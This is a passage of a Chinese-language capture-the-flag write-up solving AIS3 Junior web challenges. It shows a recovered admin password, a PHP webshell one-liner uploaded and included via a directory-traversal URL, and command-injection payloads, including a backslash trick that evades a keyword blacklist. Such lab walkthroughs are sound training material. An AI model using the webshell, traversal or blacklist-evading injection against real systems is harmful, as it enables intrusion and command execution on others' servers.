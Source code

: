 得到帳號:`admin` 密碼:`CATLOVEBITCOINMEOWMEOW`
得到flag

![image](https://hackmd.io/_uploads/HyWAaH2c0.png)
>AIS3_Junior{php://filter/BabyPHPLFI.b64decode()}

### LFI02
像FIL01和FIL02一樣 
```php
<?php system($_GET['cmd']);?>
```
將webshell檔案上傳
![image](https://hackmd.io/_uploads/H1XlhI3qA.png)

發現檔案在`tmp`底下 而tmp又在根目錄底下 
所以我們要利用../../../../ 跳到根目錄 
在將 `/tmp/a764c_108.160.138.201.php`貼到根目錄後面
像是這樣 http://ctfd-ais3.crazyfirelee.tw:9022/post.php?form=../../../../../tmp/a764c_108.160.138.201.php

接著再用`&cmd=ls` 獲得我們想要的檔案 `S3Cr3TFLAGGGGG`

![image](https://hackmd.io/_uploads/BkBv1Dh9C.png)

最後用`cat S3Cr3TFLAGGGGG` 將flag印出

![image](https://hackmd.io/_uploads/S17ngDnqR.png)
>AIS3_Junior{../../../../tmp/BADBAD.php?LFI=SUCCESS}

## 05 - Command Injection

### CMD01
先用`;ls` 查看有什麼東西

![image](https://hackmd.io/_uploads/Skk8Ew3qC.png)

發現有很多像flag的東西
先用cat印出`REAL_FLAG`
*發現是騙人的*

再去試試看`FLAG` 就出來了

![image](https://hackmd.io/_uploads/Hyas4D3cC.png)
>AIS3_Junior{BabyCommand;InjectionXDDDddddd}

### CMD02
想和上一題一樣 用`;ls` 結果沒有辦法
上網發現`;echo *` 也有一樣的效果
![image](https://hackmd.io/_uploads/H1s_CwhcC.png)
找到FLAG
用`;c\at F*`繞過黑名單 當作`cat FLAG` 得到flag
>AIS3_Junior{niceWordBL$()ACKListEvasion;)}
